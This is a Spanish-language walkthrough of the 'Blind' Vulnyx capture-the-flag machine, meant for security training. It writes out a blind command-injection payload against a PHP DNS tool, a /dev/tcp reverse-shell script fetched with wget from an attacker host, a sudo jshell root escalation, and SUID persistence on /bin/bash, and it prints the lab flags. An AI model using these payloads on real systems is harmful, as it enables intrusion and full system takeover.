







# Blind Vulnyx (Easy - Linux)

## Contexto de la maquina

### Trayectoria Blind

<figure><figcaption></figcaption></figure>

### Descripción

**Blind** es una máquina de tipo Linux orientada a explotación web y escalada local de privilegios. El vector inicial parte de una aplicación web vulnerable expuesta tras una ruta revelada en `robots.txt`, desde donde es posible explotar una inyección de comandos ciega para obtener ejecución remota.

Tras conseguir acceso inicial como usuario `microjoan`, la escalada a privilegios elevados combina exposición de credenciales en código fuente y una configuración insegura de `sudoers` que permite abuso de `jshell` para comprometer el sistema completamente.

**Objetivo del reto**

* Obtener acceso inicial mediante explotación web.
* Escalar privilegios hasta `root`.
* Recuperar las flags `user.txt` y `root.txt`.

**Tipo de máquina**

* Linux
* Web Exploitation
* Privilege Escalation

**Técnicas y habilidades evaluadas**

* Enumeración web
* Fuzzing con Gobuster
* Análisis de código fuente y reconocimiento OSINT sobre GitHub
* Blind Command Injection / Blind RCE
* Reverse Shell y estabilización de TTY
* Credential Hunting
* Abuso de configuraciones inseguras en sudoers
* Escalada mediante GTFOBins-like technique con `jshell`

### Análisis de vulnerabilidades

<figure><figcaption></figcaption></figure>

<figure><figcaption></figcaption></figure>

<figure><figcaption></figcaption></figure>

## Escaneo de puertos

Comenzamos con un reconocimiento inicial para identificar servicios expuestos en la máquina objetivo.

```shell
nmap -p- --open -sS --min-rate 5000 -vvv -n -Pn <IP>
```

Posteriormente realizamos enumeración y detección de versiones sobre los puertos descubiertos:

```shell
nmap -sCV -p<PORTS> <IP>
```

Respuesta:

```
Starting Nmap 7.98 ( https://nmap.org ) at 2026-04-19 06:26 -0400
Nmap scan report for 192.168.5.150
Host is up (0.00036s latency).

PORT   STATE SERVICE VERSION
80/tcp open  http    Apache httpd 2.4.66 ((Debian))
|_http-server-header: Apache/2.4.66 (Debian)
|_http-title: Apache2 Debian Default Page: It works
| http-robots.txt: 1 disallowed entry 
|_/dnsrecon-gui
MAC Address: 00:0C:29:FB:D2:63 (VMware)

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 7.82 seconds
```

Vemos únicamente un puerto abierto, el **80**, sirviendo una aplicación web.

Accediendo al sitio:

```
URL = http://<IP>/
```

Respuesta:

<figure><figcaption></figcaption></figure>

Nos encontramos con la página por defecto de **Apache2**, que a simple vista no expone nada interesante, por lo que procedemos con enumeración de contenido mediante fuzzing.

## Gobuster

Utilizamos `gobuster` para descubrir directorios y archivos ocultos:

```shell
gobuster dir -u http://<IP>/ -w <WORDLIST> -x html,php,txt -k -r
```

Respuesta:

```
===============================================================
Gobuster v3.8.2
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://192.168.5.150/
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.8.2
[+] Extensions:              php,txt,html
[+] Follow Redirect:         true
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
index.html           (Status: 200) [Size: 10701]
robots.txt           (Status: 200) [Size: 38]
server-status        (Status: 403) [Size: 318]
Progress: 882232 / 882232 (100.00%)
===============================================================
Finished
===============================================================
```

Un hallazgo interesante es `robots.txt`.

Accedemos a él:

```
URL = http://<IP>/robots.txt
```

Respuesta:

```
User-agent: *
Disallow: /dnsrecon-gui
```

Aquí vemos una ruta oculta expuesta por el propio `robots.txt`, lo que normalmente suele ser un buen indicador para seguir investigando.

## Escalada a usuario `microjoan`

<figure><figcaption></figcaption></figure>

Accedemos a la ruta descubierta:

```
URL = http://<IP>/dnsrecon-gui
```

Respuesta:

<figure><figcaption></figcaption></figure>

Aquí ya no vemos la página por defecto, sino una aplicación completamente distinta: una interfaz web para recopilar información DNS sobre dominios.

Además, la aplicación muestra que ha sido desarrollada por **MicroJoan**, incluyendo un enlace a su proyecto en GitHub.

<figure><figcaption></figcaption></figure>

Repositorio:

URL = [GitHub DNSrecon GUI](https://github.com/micro-joan/DNSrecon-gui/tree/main)

### Análisis del código fuente

Al revisar el repositorio, encontramos el archivo `index.php`, donde aparece una vulnerabilidad clara de **Command Injection**:

```php
$run_dnsrecon = 'dnsrecon -d'.$domain.' -j /var/www/html/dnsrecon-gui/dnsrecon_results/search.json';
exec($run_dnsrecon);
```

El problema es evidente:

* La variable `$domain` proviene directamente de:

```php
$_POST['domain']
```

* No existe ningún tipo de sanitización o escaping.
* Se concatena directamente a un comando del sistema ejecutado mediante `exec()`.

Esto nos permite inyectar comandos arbitrarios.

### Confirmación de Blind RCE

Aunque la aplicación no devuelve el _output_ de los comandos ejecutados, sí es posible confirmar ejecución mediante una técnica de **Blind RCE basada en tiempo** (_time-based command injection_).

Tras probar distintos payloads, el que dio resultado fue:

```shell
google.com; $(sleep 5)
```

Al introducirlo en el campo de búsqueda del dominio, la respuesta tarda aproximadamente **5 segundos** en devolverse, confirmando que el comando inyectado se está ejecutando en el sistema.

Esto valida la existencia del **Command Injection** y nos permite pasar a una explotación más útil: obtener una _reverse shell_ interactiva.

### Reverse Shell

Una vez confirmado el RCE, el siguiente objetivo es obtener ejecución interactiva sobre la máquina víctima.

Primero nos ponemos en escucha en nuestra máquina atacante:

```shell
nc -lvnp <PORT>
```

A continuación, levantamos un servidor HTTP simple con Python para servir un script con la _reverse shell_:

> rev.sh

```bash
#!/bin/bash

bash -i >& /dev/tcp/<IP_ATTACKER>/<PORT> 0>&1
```

Servimos el archivo:

```shell
python3 -m http.server 80
```

Ahora aprovechamos el _Command Injection_ para descargar y ejecutar nuestro payload.

```shell
# Descargamos nuestro archivo malicioso de la maquina atacante
google.com; $(wget http://<IP_ATTACKER>/rev.sh)

# Ahora ejeuctamos el archivo bash
google.com; $(bash rev.sh)
```

Al volver a la terminal donde tenemos el listener, recibimos la conexión:

```
listening on [any] 7777 ...
connect to [192.168.5.131] from (UNKNOWN) [192.168.5.151] 34664
bash: cannot set terminal process group (585): Inappropriate ioctl for device
bash: no job control in this shell
microjoan@blind:/var/www/html/dnsrecon-gui$ whoami
whoami
microjoan
```

Veremos que la explotación ha sido exitosa y hemos obtenido acceso como el usuario `microjoan`.

A partir de aquí, el siguiente paso es estabilizar y sanear la shell para trabajar cómodamente.

### Sanitización de la Shell (TTY)

Como la shell obtenida es una pseudo-shell limitada, la convertimos en una TTY interactiva.

```shell
script /dev/null -c bash
```

```shell
# <Ctrl> + <z>
stty raw -echo; fg
reset xterm
export TERM=xterm
export SHELL=/bin/bash

# Para ver las dimensiones de nuestra consola en el Host
stty size

# Para redimensionar la consola ajustando los parametros adecuados
stty rows <ROWS> columns <COLUMNS>
```

Una vez estabilizada, ya podemos acceder a la `flag` de usuario.

> user.txt

```
ccb82a1ed72e7d09df0f64bd34debc3e
```

## Escalate Privileges

<figure><figcaption></figcaption></figure>

Tras obtener acceso como `microjoan`, comencé una fase de enumeración local en busca de credenciales reutilizadas o información sensible expuesta en el sistema.

Una técnica rápida en entornos web comprometidos consiste en realizar búsquedas recursivas sobre el directorio de la aplicación para localizar cadenas relacionadas con contraseñas, claves o secretos.

```shell
cd /var/www/html/dnsrecon-gui
grep -rliE "password|passwd|contraseña|secret|key|token" .
```

Respuesta:

```
./vendor/jquery/jquery.slim.js
./vendor/jquery/jquery.min.js
./vendor/jquery/jquery.min.map
./vendor/jquery/jquery.slim.min.map
./vendor/jquery/jquery.slim.min.js
./vendor/jquery/jquery.js
./vendor/bootstrap/js/bootstrap.bundle.min.js
./vendor/bootstrap/js/bootstrap.min.js
./vendor/bootstrap/js/bootstrap.bundle.min.js.map
./vendor/bootstrap/css/bootstrap.min.css.map
./vendor/bootstrap/css/bootstrap.min.css
./text2mindmap/styles/old/jquery-ui-1.10.3.custom.min.css
./text2mindmap/scripts/old/kineticjs.js
./text2mindmap/scripts/old/mindmap.min.js
./text2mindmap/scripts/old/jquery.minicolors.min.js
./text2mindmap/scripts/old/difflib.js
./text2mindmap/scripts/document_title.js
./text2mindmap/scripts/settings.js
./text2mindmap/scripts/main.js
./text2mindmap/scripts/shortcuts.js
./assets/js/owl-carousel.js
./assets/js/animation.js
./assets/js/tabs.js
./assets/fonts/FontAwesome.otf
./assets/fonts/fontawesome-webfont.ttf
./assets/css/animated.css
./assets/css/templatemo-plot-listing.css
./assets/css/fontawesome.css
./assets/css/owl.css
./assets/images/banner-bg.jpg
```

El resultado devuelve mucho ruido, principalmente dependencias externas (`vendor/`) y librerías JavaScript que no aportan demasiado valor.

Por ello, refinamos la búsqueda para centrarnos en archivos más interesantes, especialmente código `PHP` y `JS`, buscando referencias a usuarios, credenciales o configuraciones internas:

```shell
grep -rniE "(user|username|login|admin|root).*[=:].*" --include="*.js" --include="*.php" --exclude-dir={vendor,old}
```

Respuesta:

```
index.php:66:    $db_user = "microjoan";
text2mindmap/index.php:41:        var admincode = "";
text2mindmap/index.php:47:        var userid = "";
text2mindmap/index.php:48:        var user = "";
assets/js/tabs.js:4079:			this._dialogInput = $("<input type='text' id='" + id +
assets/js/tabs.js:4083:			inst = this._dialogInst = this._newInst(this._dialogInput, false);
assets/js/tabs.js:4667:				this._dialogInput.css({ position: "absolute", left: "0", top: "-100px" });
assets/js/tabs.js:6224:	_isRootNode: function( element ) {
assets/js/tabs.js:6260:			scrollIsRootNode = this._isRootNode( this.scrollParent[ 0 ] );
assets/js/tabs.js:6263:			top: p.top - ( parseInt(this.helper.css( "top" ), 10) || 0 ) + ( !scrollIsRootNode ? this.scrollParent.scrollTop() : 0 ),
assets/js/tabs.js:6264:			left: p.left - ( parseInt(this.helper.css( "left" ), 10) || 0 ) + ( !scrollIsRootNode ? this.scrollParent.scrollLeft() : 0 )
assets/js/tabs.js:6334:		isUserScrollable = /(scroll|auto)/.test( c.css( "overflow" ) );
assets/js/tabs.js:6339:			( isUserScrollable ? Math.max( ce.scrollWidth, ce.offsetWidth ) : ce.offsetWidth ) -
assets/js/tabs.js:6345:			( isUserScrollable ? Math.max( ce.scrollHeight, ce.offsetHeight ) : ce.offsetHeight ) -
assets/js/tabs.js:6362:			scrollIsRootNode = this._isRootNode( this.scrollParent[ 0 ] );
assets/js/tabs.js:6369:				( ( this.cssPosition === "fixed" ? -this.offset.scroll.top : ( scrollIsRootNode ? 0 : this.offset.scroll.top ) ) * mod)
assets/js/tabs.js:6375:				( ( this.cssPosition === "fixed" ? -this.offset.scroll.left : ( scrollIsRootNode ? 0 : this.offset.scroll.left ) ) * mod)
assets/js/tabs.js:6385:			scrollIsRootNode = this._isRootNode( this.scrollParent[ 0 ] ),
assets/js/tabs.js:6455:				( this.cssPosition === "fixed" ? -this.offset.scroll.top : ( scrollIsRootNode ? 0 : this.offset.scroll.top ) )
assets/js/tabs.js:6462:				( this.cssPosition === "fixed" ? -this.offset.scroll.left : ( scrollIsRootNode ? 0 : this.offset.scroll.left ) )
assets/js/tabs.js:14542:			scrollIsRootNode = (/(html|body)/i).test(scroll[0].tagName);
assets/js/tabs.js:14549:				( ( this.cssPosition === "fixed" ? -this.scrollParent.scrollTop() : ( scrollIsRootNode ? 0 : scroll.scrollTop() ) ) * mod)
assets/js/tabs.js:14555:				( ( this.cssPosition === "fixed" ? -this.scrollParent.scrollLeft() : scrollIsRootNode ? 0 : scroll.scrollLeft() ) * mod)
assets/js/tabs.js:14567:			scroll = this.cssPosition === "absolute" && !(this.scrollParent[0] !== document && $.contains(this.scrollParent[0], this.offsetParent[0])) ? this.offsetParent : this.scrollParent, scrollIsRootNode = (/(html|body)/i).test(scroll[0].tagName);
assets/js/tabs.js:14615:				( ( this.cssPosition === "fixed" ? -this.scrollParent.scrollTop() : ( scrollIsRootNode ? 0 : scroll.scrollTop() ) ))
assets/js/tabs.js:14622:				( ( this.cssPosition === "fixed" ? -this.scrollParent.scrollLeft() : scrollIsRootNode ? 0 : scroll.scrollLeft() ))
```

Aquí aparece algo interesante: el archivo `index.php` contiene referencias directas a configuración sensible.

Para inspeccionar el contexto completo, mostramos unas líneas alrededor del hallazgo:

```shell
sed -n '60,75p' index.php
```

Respuesta:

```
</div>
    </div>
  </div>

  <?php

    $db_user = "microjoan";
    $db_pass = "microP@zz";

    $domain = $_POST['domain'];

    if($domain > ""){

      $delete_last_search = 'rm /var/www/html/dnsrecon-gui/dnsrecon_results/search.json';
      exec($delete_last_search);
```

Aquí encontramos unas credenciales hardcodeadas:

```
Usuario: microjoan
Password: microP@zz
```

Aunque ya teníamos acceso como `microjoan`, hasta este punto desconocíamos su contraseña, y esto abre la posibilidad de reutilización en `sudo`.

### Enumeración de sudo

<figure><figcaption></figcaption></figure>

Probamos privilegios sudo:

```shell
sudo -l
```

Metemos como contraseña `microP@zz`...

```
Matching Defaults entries for microjoan on blind:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin, use_pty

User microjoan may run the following commands on blind:
    (root) PASSWD: /usr/bin/jshell
```

Vemos que el usuario puede ejecutar:

```
/usr/bin/jshell
```

como `root`.

Esto es especialmente interesante porque `jshell` (Java Shell REPL) permite ejecución interactiva de código Java, y al ejecutarse con privilegios elevados puede derivar fácilmente en una shell como `root`.

En otras palabras, tenemos una escalada directa vía sudo sobre un binario altamente abusables.

### Abuso de `jshell` para obtener root

Ejecutamos el binario permitido:

```shell
sudo /usr/bin/jshell
```

Respuesta:

```
|  Welcome to JShell -- Version 17.0.17
|  For an introduction type: /help intro

jshell>
```

Una vez dentro del entorno interactivo, validamos primero que efectivamente estamos ejecutando comandos como `root`:

```js
Process p = Runtime.getRuntime().exec("whoami");
p.getInputStream().transferTo(System.out);
```

Respuesta:

```
root
$3 ==> 5
```

Confirmamos que el contexto es privilegiado.

#### Estableciendo persistencia mediante SUID

Aprovechando la ejecución como `root`, modificamos permisos de `/bin/bash` para asignarle el bit **SUID**, de forma que cualquier ejecución posterior herede privilegios de root.

```js
Process p = Runtime.getRuntime().exec("chmod u+s /bin/bash");
```

Salimos de `jshell` con:

```
/exit
```

Y comprobamos los permisos del binario:

```shell
ls -la /bin/bash
```

Respuesta:

```
-rwsr-xr-x 1 root root 1265648 Sep  7  2025 /bin/bash
```

Podemos ver que el bit SUID (`s`) ha sido aplicado correctamente.

### Obtención de shell como root

Ahora simplemente ejecutamos Bash en modo privilegiado:

```shell
bash -p
```

Respuesta:

```
bash-5.2# whoami
root
```

Con esto obtenemos una shell como `root` y la escalada queda completada.

Solo queda leer la flag final:

> root.txt

```
31cb35fbf6874ab1f7646a9e89a4483f
```
